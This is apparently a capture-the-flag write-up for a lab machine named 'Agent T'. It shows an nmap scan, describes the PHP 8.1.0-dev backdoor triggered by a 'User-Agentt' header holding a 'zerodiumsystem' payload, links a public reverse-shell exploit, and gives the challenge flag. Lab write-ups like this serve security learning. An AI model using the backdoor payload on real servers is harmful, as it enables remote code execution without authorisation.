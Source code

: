 # Agent T

### Find The Flag
- What is the flag?<br />
Initial nmap scan shows port 80 open:

      # Nmap 7.94SVN scan initiated Wed Dec 18 10:12:25 2024 as: /usr/lib/nmap/nmap -p80 -sV -sC -oN scan 10.10.25.236
      Nmap scan report for 10.10.25.236
      Host is up (0.070s latency).
      
      PORT   STATE SERVICE VERSION
      80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
      |_http-title:  Admin Dashboard

This website is running a vulnerable version of PHP, that contains a backdoor for remote code execution, by sending a request with field `User-Agentt` (double t), something like this: `"User-Agentt": "zerodiumsystem('" + payload + "');"`.
<br />
I used [this](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) exploit to get a reverse shell and the flag:<br />
![image](https://github.com/user-attachments/assets/b2005e31-4a39-44e8-ae24-b7a69c71f8ce)<br />
`flag{4127d0530abf16d6d23973e3df8dbecb}`

